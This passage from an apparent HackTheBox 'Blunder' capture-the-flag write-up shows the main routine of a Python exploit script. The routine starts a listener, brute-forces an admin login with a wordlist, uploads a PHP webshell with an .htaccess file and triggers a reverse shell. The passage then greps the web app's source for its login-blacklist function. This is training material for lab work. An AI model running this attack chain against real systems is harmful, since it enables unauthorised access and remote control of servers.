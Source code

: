 ```py
    ''' Set some variables '''
    lport = args.lport
    ip = args.localip
    rhost = args.target
    username = args.username
    wordlist = args.wordlist
    global login_url
    login_url = 'http://' + rhost + '/admin/login'
    
    '''Here we call the functions'''
    
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Make the login request
    loginRequest(rhost,wordlist,username)
    # Now upload the webshell on the server and write htaccess
    uploadPhpCmd(rhost)
    # Now get the reverse shell baby
    getReverse(rhost,ip,lport)
if __name__ == '__main__':
    main()
```

# Source Code

Now with proper and easy access to the machine, let's analise it to look for how this vulnerability works before get root

We look on the root folder from the web page and see the folder structure

We see it's structure

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2003:39:35.png)

We look for the error message

```sh
grep -lRi "ip address has been"
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2003:54:12.png)

We found the function `addToBlacklist`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2003:57:44.png)

We search for it

```sh
grep -lri "function addToBlacklist("
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-02-HackTheBox-Blunder/2021-09-02-HackTheBox-Blunder%2003:58:22.png)
